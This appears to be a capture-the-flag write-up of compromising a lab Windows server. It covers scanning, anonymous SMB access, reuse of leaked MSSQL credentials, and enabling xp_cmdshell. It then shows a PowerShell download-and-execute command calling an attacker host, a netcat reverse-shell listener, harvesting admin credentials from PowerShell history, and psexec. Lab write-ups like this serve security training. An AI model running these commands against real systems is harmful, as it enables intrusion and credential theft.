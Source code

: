 # 10.10.10.27

---

## nmap -sS -sC -sV 10.10.10.27

```
PORT     STATE SERVICE    VERSION
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped Windows Server 2019 Standard 17763 tcpwrapped
1433/tcp open  ms-sql-s   Microsoft SQL Server 2017 14.00.1000.00; RTM
```

---

## smbclient -N -L 10.10.10.27

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

---

## smbclient -N \\\\10.10.10.27\\backups

```
  .                                   D        0  Mon Jan 20 15:20:57 2020
  ..                                  D        0  Mon Jan 20 15:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 15:23:02 2020

```

## In config:

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Username: ARCHETYPE
Pass: M3g4c0rp123

---

## python3 impacket/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

++ [Code Fix of tds.py](https://github.com/SecureAuthCorp/impacket/issues/856)

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> exec sp_configure 'Show Advanced Options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> exec sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL  
```

No admin privileges.

Next is reverse shell.

---

## xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.65/shell.ps1\");""

Script saved in ```shell.ps1```, had to do some clean up and fix the IP adress.

```
    sudo python3 -m http.server 80  //  shell.ps1 taken from here.
    sudo nc -lvnp 443   //  Reverse shell is sent to here.
```
Reverse shell is now ready.

---

## type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Username: administrator
Pass: MEGACORP_4dm1n!!

---

## python3 impacket/psexec.py administrator@10.10.10.27

And we have a privileged remote shell.

---

## Inside users

```
user.txt:
    3e7b102e78218e935bf3f4951fec21a3
```
```
root.txt:
    b91ccec3305e98240082d4474b848528
```
